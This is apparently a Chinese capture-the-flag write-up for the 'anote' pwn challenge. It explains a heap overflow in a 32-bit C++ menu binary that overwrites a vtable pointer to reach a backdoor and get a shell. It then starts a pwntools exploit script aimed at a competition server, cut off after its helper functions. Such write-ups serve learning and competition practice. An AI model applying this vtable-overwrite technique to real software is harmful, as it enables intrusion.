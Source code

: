 ```yaml
---
title: 国赛 x 长城杯 初赛 - anote
date: 2025/03/16 18:33:00
updated: 2025/03/24 18:33:00
tags:
    - buffer overflow
thumbnail: /assets/ciscnxccb2025/telenote.png
excerpt: 通过堆溢出覆盖虚表并调用后门地址，成功获得shell。
---
```


## 文件属性

|属性  |值    |
|------|------|
|Arch  |i386  |
|RELRO|Partial|
|Canary|on    |
|NX    |on    |
|PIE   |off   |
|strip |yes   |

## 解题思路

32位菜单题，`add`不能输入内容，`edit`时可以溢出写(`0x28 > 0x1c`)，`show`会泄露堆地址。
由于是C++题，申请的堆块开头存在一个虚表，在edit完成时调用，可以通过溢出写覆盖虚表。
通过`show`泄露堆地址后，可以在堆上写一个虚表，并在其中写上程序中的后门地址，然后调用`edit`即可拿shell。

<img src="/assets/ciscnxccb2025/noteheap.png" width="80%">

<img src="/assets/ciscnxccb2025/telenote.png" width="80%">

## EXPLOIT

```python
from pwn import *
context.terminal = ['tmux','splitw','-h']
GOLD_TEXT = lambda x: f'\x1b[33m{x}\x1b[0m'
EXE = './anote'

def payload(lo: int):
    global sh
    if lo:
        sh = process(EXE)
        if lo & 2:
            gdb.attach(sh)
    else:
        sh = remote('101.200.198.105', 22673)

    def add():
        sh.sendlineafter(b'ice>>', b'1')

    def show(idx: int) -> int:
        sh.sendlineafter(b'ice>>', b'2')
        sh.sendlineafter(b'index', str(idx).encode())
        sh.recvuntil(b'gift: ')
        return int(sh.recvline(), 16)

```